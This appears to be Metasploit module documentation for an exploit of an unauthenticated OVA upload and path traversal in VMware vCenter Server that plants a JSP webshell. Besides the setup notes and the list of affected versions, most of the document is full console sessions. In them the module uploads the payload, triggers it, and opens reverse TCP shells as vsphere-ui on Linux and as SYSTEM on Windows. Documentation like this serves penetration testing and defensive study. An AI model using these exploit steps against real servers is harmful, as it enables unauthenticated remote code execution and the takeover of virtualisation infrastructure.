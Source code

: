 ## Vulnerable Application

### Description

This module exploits an unauthenticated OVA file upload and path
traversal in VMware vCenter Server to write a JSP payload to a
web-accessible directory.

Fixed versions are 6.5 Update 3n, 6.7 Update 3l, and 7.0 Update 1c.
Note that later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. Furthermore, writing an SSH
public key to `/home/vsphere-ui/.ssh/authorized_keys` works, but the
user's non-existent password expires 90 days after install, rendering
the technique nearly useless against production environments.

You'll have the best luck targeting older versions of the Linux
appliance. The Windows target should work ubiquitously.

### Setup

Follow [VMware's official
documentation](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html)
on installing and configuring vCenter Server, or you can wing it like
me. The Linux appliance is meant to be deployed via ESXi, but I
short-circuited the procedure by mounting the ISO and importing the OVA
directly into VMware Fusion (or your desired hypervisor). YMMV.

```
wvu@kharak:~/Downloads$ hdiutil attach VMware-VCSA-all-6.7.0-11726888.iso
/dev/disk2          	                               	/Volumes/VMware VCSA
wvu@kharak:~/Downloads$ ls -l /Volumes/VMware\ VCSA/vcsa
total 4621748
-r-xr-xr-x  1 wvu  staff  2366330368 Jan 10  2019 VMware-vCenter-Server-Appliance-6.7.0.21000-11726888_OVF10.ova
dr-xr-xr-x  5 wvu  staff        2048 Jan 10  2019 ovftool
-r-xr-xr-x  1 wvu  staff          52 Jan 10  2019 version.txt
wvu@kharak:~/Downloads$
```

If you're using the workaround above, you'll need to connect to port
5480 to complete [Stage
2](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-CA114526-A413-4219-9FA7-F5A9E9ACA357.html)
of the faux deployment. The vSphere Client should be accessible on port
443 after Stage 2 is complete.

You'll want to test versions earlier than 6.7 Update 3l, since that's
patched. Later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. I haven't been able to download
and test them all. Sorry.

**Note:** If you're testing on Windows, using Windows Server 2019 will
fail miserably. Please use [Windows Server 2016 or
earlier](https://kb.vmware.com/s/article/2091273). It must be Windows
Server. I can't stress this enough!

**PROTIP:** Removing or otherwise disabling DNS resolution in the Linux
appliance will make setup run faster if you don't have an FQDN and DNS
server to back it up. This didn't seem to make a difference on Windows.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets the Linux appliance with a JSP payload. `VMware vCenter
Server <= 6.7 Update 1b (Linux)` is supported.

### 1

This targets the Windows install with a JSP payload. `VMware vCenter
Server <= 6.7 Update 3j (Windows)` is supported.

## Options

### SprayAndPrayMin

Spray JSP payload path starting at this index.

### SprayAndPrayMax

Spray JSP payload path stopping at this index.

## Scenarios

### VMware vCenter Server 6.7 Update 1b (Linux appliance)

```
msf6 > use exploit/multi/http/vmware_vcenter_uploadova_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > options

Module options (exploit/multi/http/vmware_vcenter_uploadova_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   VMware vCenter Server <= 6.7 Update 1b (Linux)


msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.135
rhosts => 192.168.123.135
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: KCKJuhBJ8tlkS7DSwEc3c881aptw9TKIuI.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.135/ui/resources/i6LZZp4k76BXJcdYHGXqqidR2CAo7e.jsp
[+] Successfully requested JSP payload
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.135:50422) at 2021-03-02 15:14:03 -0600
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/i6LZZp4k76BXJcdYHGXqqidR2CAo7e.jsp
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/40/0/h5ngc.war/resources/i6LZZp4k76BXJcdYHGXqqidR2CAo7e.jsp

id
uid=1016(vsphere-ui) gid=100(users) groups=100(users),59001(cis)
uname -a
Linux photon-machine 4.4.161-1.ph1 #1-photon SMP Wed Oct 17 12:15:18 UTC 2018 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
```

### VMware vCenter Server 6.7 Update 3j on Windows Server 2016

```
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set target 1
target => 1
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.180
rhosts => 192.168.123.180
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: 2zckGtDuZm9byeO9k1KYcuqjlubqSm9.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.180/statsreport/7NYkEScb3HEBnAP9.jsp
[+] Successfully requested JSP payload
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.180:49196) at 2021-03-02 15:14:58 -0600
[!] Tried to delete /ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/7NYkEScb3HEBnAP9.jsp, unknown result


C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>whoami
whoami
nt authority\system

C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>
```
